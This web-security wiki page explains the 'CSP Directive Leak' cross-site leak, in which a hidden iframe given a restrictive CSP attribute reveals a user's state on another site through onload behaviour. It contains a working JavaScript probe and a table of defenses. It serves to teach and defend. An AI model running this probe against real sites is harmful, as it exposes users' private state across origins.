 +++
title = "CSP leaks"
description = ""
category = "Attack"
abuse = [
    "CSP Violations",
]
defenses = [
    "SameSite Cookies"
]
menu = "main"
weight = 2
+++

## CSP Directive Leak

Without using the `Allow-CSP-From` header an embedder is not allowed to set a more restrictive policy on to an iframe,
For most directives so by trying to apply `img-src 'https://example.com';` to the iframe csp attribute it will refuse to load unless it’s only allowing images from that source this can be detected with the onload event. [Run demo](https://xsinator.com/testing.html#CSP%20Directive%20Leak)

This can be abused if csp attrbutes are set conditionally on user state and embedding is allowed.

```javascript
async function ifResticts(URL, csp) {
    return new Promise((r) => {
        let f = document.createElement('iframe');
        f.setAttribute('csp', csp);
        f.hidden = true;
        f.src = URL;
        f.onload = () => {
            f.onload = () => {
                f.remove();
                return r(0);
            }
            f.src = URL + '#';
        }
        let t = setTimeout(() => {
            f.remove();
            return r(1);
        }, 2000);
        document.body.append(f);
    });
}
```
{{< hint info >}}
As of November 2021, Firefox doesn't support the csp attribute for an [iframe](https://developer.mozilla.org/en-US/docs/Web/API/HTMLIFrameElement/csp).
{{< /hint >}}


## Defense

| [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) |                                          [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}})                                           |
| :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :------------------------------------------------------------------------------------------------------------------------------------------------------: |
|                                         ✔️                                         |                         ❌                          |                                ✔️                                 | [RIP]({{< ref "/docs/defenses/isolation-policies/resource-isolation" >}}) 🔗 [NIP]({{< ref "/docs/defenses/isolation-policies/navigation-isolation" >}}) |
